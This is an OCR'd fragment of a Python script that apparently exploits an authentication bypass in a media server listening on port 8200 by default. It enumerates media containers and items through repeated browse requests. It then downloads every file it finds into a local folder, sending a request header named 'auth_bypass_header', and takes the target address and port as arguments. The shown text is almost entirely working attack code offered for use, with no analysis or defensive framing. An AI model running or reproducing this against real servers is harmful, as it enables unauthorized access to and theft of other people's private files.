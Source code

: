 ```python
            file_name = ee.getElementsByTagName("dc:title")[0].firstChild.nodeValue
            #log(f"FIND: {file_name}")
            keys3.append([v, file_name, ee.getAttribute("id")])

    keys4 = []
    deps_key = []

    for k in keys3:
        res = sess.post(url=f"{HOST}", headers=header, data=pay.format(1, k[-1]))
        obj = parseString(html.unescape(res.text))
        element = obj.getElementsByTagName('item')
        element2 = obj.getElementsByTagName('container')
        for ee in element:
            file_name = ee.getElementsByTagName("dc:title")[0].firstChild.nodeValue
            #log(f"FIND: {file_name}")
            url = ee.getElementsByTagName('res')[0].firstChild.nodeValue
            if 'MediaItems' in url or "Resize" in url or "Transcode" in url:
                keys4.append([v, file_name, url, url.split("ext=")[1]])

        for ee in element2:
            deps_key.append(ee.getAttribute("id"))

    for k in deps_key:
        res = sess.post(url=f"{HOST}", headers=header, data=pay.format(1, k))
        obj = parseString(html.unescape(res.text))
        element = obj.getElementsByTagName('item')
        for ee in element:
            file_name = ee.getElementsByTagName("dc:title")[0].firstChild.nodeValue
            #log(f"FIND: {file_name}")
            url = ee.getElementsByTagName('res')[0].firstChild.nodeValue
            if 'MediaItems' in url or "Resize" in url or "Transcode" in url:
                keys4.append([v, file_name, url, url.split("ext=")[1]])

    makedirs('./Downloaded')

    for k in keys4:
        if "Transcode" in k[-2]:
            k[-2] = k[-2].replace("Transcode", "MediaItems")

    RETRY = []
    for k in keys4:
        URL = k[-2]
        res = sess.get(url=URL, headers=auth_bypass_header)
        if len(res.content) <= 0:
            RETRY.append([k[1]+k[-1], k[-2]])
            log(f'FAILED: {k[1]+k[-1]}')
            continue
        
        with open(f"./Downloaded/{k[1]+k[-1]}", 'wb') as f:
            f.write(res.content)
        log(f"SUCCESS DOWNLOAD FILE {k[1]+k[-1]}")
    
    for rr in RETRY:
        res = sess.head(url=rr[1], headers=auth_bypass_header)
        print(rr[1])
      

if __name__ == '__main__':
    parser = argparse.ArgumentParser(description='')

    parser.add_argument('--target', required=True, help='TRAGET ADDRESS')
    parser.add_argument('--port', required=False, default='8200', help='TARGET PORT\ndefault value is 8200')
```